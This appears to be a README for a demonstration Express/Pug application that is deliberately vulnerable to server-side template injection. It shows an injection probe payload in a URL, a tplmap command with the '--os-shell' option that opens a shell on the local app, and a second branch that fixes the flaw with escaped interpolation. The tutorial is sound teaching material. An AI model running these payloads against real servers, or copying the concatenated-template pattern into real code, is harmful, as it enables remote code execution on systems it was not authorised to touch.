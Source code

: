 This application is a demonstration prototype just to show how to perform SSTI (Server side templating injection) attack. This application use Express and Pug as templating engine. This tutorial is based on https://appsec.amanvir.io/exploring-template-injection

# Step 0

* Install nodejs

* Install express and pug

```console
$ npm install
```

* Install tplmap

```console
$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ virtualenv --python=/usr/bin/python2.7 venv
$ source ./venv/bin/activate
$ pip install -r requirements.txt
```

# Step 1 

* Start application

```console
$ node app.js
```

* Open http://localhost:3000/?name=bob

* Open http://localhost:3000/?name=%23%7B7*7%7D to test if your application is expose to SSTI (name={7*7})

* Run SSTI attack with [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
(venv)$ ./tplmap.py --engine pug --os-shell -u http://localhost:3000/?name=bob
```

In this example, the template is built by concatenation ("template literals" introduce in ES6).

# Step 2

The right way is to define a template with escaped data [interpolation](https://pugjs.org/language/interpolation.html).

* Select the branch

```console
$ git checkout step2
```

* Start application

```console
$ node app.js
```

* Run tplmap again

Now, the "name" parameter appear to be not injectable.
